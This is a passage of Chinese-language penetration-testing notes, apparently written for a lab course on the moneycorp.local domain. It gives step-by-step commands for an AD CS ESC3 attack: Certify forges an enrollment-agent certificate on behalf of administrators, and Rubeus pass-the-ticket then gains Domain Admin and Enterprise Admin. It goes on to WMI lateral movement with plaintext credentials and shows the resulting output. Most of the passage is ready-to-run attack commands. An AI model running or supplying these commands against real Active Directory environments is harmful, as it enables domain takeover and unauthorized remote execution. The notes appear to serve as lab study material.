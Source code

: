  ```
 C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:C:\AD\Tools\esc3-agent.pfx /enrollcertpw:SecretPass@123
 ```
```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc3-DA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc3-DA.pfx
```
用剛偽造出來的「Administrator 憑證」做 PKINIT，去 KDC 拿到 Administrator 的 TGT，並直接注入記憶體。  現在就變成Domain Admin的身份了
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:administrator /certificate:esc3-DA.pfx /password:SecretPass@123 /ptt
```
```
winrs -r:dcorp-dc cmd /c set username
```
如果要拿到Enterprise Admin，可以使用` '/onbehalfof: mcorp\administrator'` 
```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:mcorp\administrator /enrollcert:C:\AD\Tools\esc3-agent.pfx /enrollcertpw:SecretPass@123
```
 ```
 winrs -r:mcorp-dc cmd /c  set username
 ```
# 橫移及Persistence手法
>[!NOTE]
>橫向擴散、長期維運與潛伏的手法
## WMI and WinRM
>[!WARNING]
>Windows Management Instrumentation (WMI)可以利用RPC在遠端電腦創建process
- wmic (deprecated)
```
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```
>當然要有目標那台的administrators的全組裡面的帳號阿
```
C:\Users\jeff\Desktop>wmic /node:192.168.216.73 /user:jen /password:Nexus123! process call create "calc"
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 5552;
        ReturnValue = 0;
};
```

> 利用powershell執行，需要有遠端的帳號密碼才可以。  
